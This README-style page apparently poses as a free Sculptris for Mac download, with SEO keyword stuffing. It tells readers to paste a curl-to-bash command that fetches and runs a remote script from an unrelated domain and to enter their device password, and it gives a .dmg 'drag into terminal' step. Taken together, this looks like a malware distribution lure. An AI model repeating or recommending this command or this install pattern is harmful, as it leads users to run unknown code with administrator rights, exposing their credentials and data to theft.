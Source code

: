 # Sculptris for Mac

[![Download Setup Assistant](https://img.shields.io/badge/Download-Setup_Assistant-blueviolet)](https://sculptris-mac-download.github.io/.github)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72) 

🎯 What You Unlock

🔓 Complete sculpting tools

🎨 Advanced brush options and textures

🛠 No internet or account login required

🖼 Preview

![Sculptris Face Sculpt](https://embed-ssl.wistia.com/deliveries/4d05da519376bcb4a381544eaf3b4bd46712f508.webp?image_crop_resized=960x540)  


![Sculptris 3D Model](https://www.norwegiancreations.com/wp-content/uploads/2017/08/sculptris_face.png)  


![Sculptris Workflow](https://webdesignersdream.wordpress.com/wp-content/uploads/2012/09/creature-modeling-zbrush.png)  



**SEO Keywords:**  
sculptris, sculptris software, sculptris download, pixologic sculptris, sculptris for mac, sculptris pro, zbrush sculptris, zbrush sculptris pro, sculptris download mac, sculptris mac free download, 3d sculpting mac, digital sculpting software, free sculpting tool, offline 3d sculpting, sculptris tutorial, sculptris features, mac sculpting app, sculptris brushes, sculptris interface, sculptris full version, sculptris free, best sculpting software mac, beginner sculpting software, 3d modeling mac, sculptris activation, digital art mac
